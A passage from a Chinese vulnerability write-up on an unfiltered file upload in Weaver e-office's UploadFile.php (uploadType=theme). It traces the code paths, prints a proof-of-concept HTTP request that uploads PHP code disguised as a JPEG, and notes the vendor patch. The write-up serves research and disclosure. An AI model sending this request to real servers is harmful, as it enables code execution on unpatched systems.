  
8、全局搜索一下，发现当 uploadType="login_bg" 时调用了它，这里上传会检测后缀  
  
9、再往前看，发现当 uploadType="login_logo" 时设置了白名单后缀  
  
10、下面还有一个当 uploadType="theme" 的时候执行的代码，简单看了一下，居然没有进行过滤  
  
11、然后，就发现了一个新的未公开的漏洞，在上面的 theme 方法

```http
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=theme&userId=1 HTTP/1.1
Host: 10.211.55.3:8082
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Length: 192
Origin: http://10.211.55.3:8082
Connection: close
Referer: http://10.211.55.3:8082/login.php
Cookie: LOGIN_LANG=cn; PHPSESSID=715b458eb0c0227c9d9e23b81222880b
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4
--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; 
Content-Type: image/jpeg
<?php phpinfo();?>
--e64bdf16c554bbc109cecef6451c26a4--
```

  


12、下载了补丁包，发现都设置了上传后缀白名单，并且加了个过滤器。目前泛微官方已发布此漏洞的软件更新，建议受影响用户尽快升级到安全版本。  
官方链接如下：http://v10.e-office.cn/eoffice9update/safepack.zip  
**theme**  
  
**eoffice_logo**  


**0x05 总结**
-----------

本来想好好写篇分析文章的，现在还发现了一个未公开的漏洞利用 poc，搞得有点尴尬，漏洞涉及版本没有深究，好像新版本后面没有了？  
哎，食之无味弃之可惜～本篇内容仅用于信息防御技术学习，未经许可不允许进行非授权测试，谢谢合作。  
希望受影响的用户尽快升级到安全版本。  
官方补丁下载链接如下：http://v10.e-office.cn/eoffice9update/safepack.zip

欢迎关注

公众号

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
